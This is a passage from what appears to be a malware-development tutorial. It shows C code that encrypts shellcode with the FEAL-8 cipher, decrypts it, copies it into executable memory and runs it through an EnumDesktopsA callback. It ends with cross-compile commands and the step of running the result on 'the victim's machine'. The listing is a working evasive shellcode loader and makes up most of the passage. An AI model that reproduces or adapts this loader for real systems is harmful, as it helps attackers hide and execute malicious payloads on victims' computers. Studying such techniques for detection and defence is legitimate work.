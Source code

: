 ```cpp
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  uint8_t key[8] = { 0x12, 0x34, 0x56, 0x78, 0x9A, 0xBC, 0xDE, 0xF0 };

  feal8_encrypt_shellcode(padded, pad_len, key);

  printf("encrypted shellcode:\n");
  for (int i = 0; i < pad_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  feal8_decrypt_shellcode(padded, pad_len, key);

  printf("decrypted shellcode:\n");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  // allocate and execute decrypted shellcode
  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);

  return 0;
}
```

So, this example demonstrates how to use the `FEAL-8` encryption algorithm to encrypt and decrypt payload. For checking correctness, added printing logic.      

### demo

Let’s go to see everything in action. Compile it (in my `linux` machine):    

```bash
x86_64-w64-mingw32-gcc -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc
```

![cryptography](./images/133/2024-09-12_18-04.png){width="80%"}      

Then, just run it in the victim's machine (`windows 11 x64` in my case):    

```powershell
.\hack.exe
```
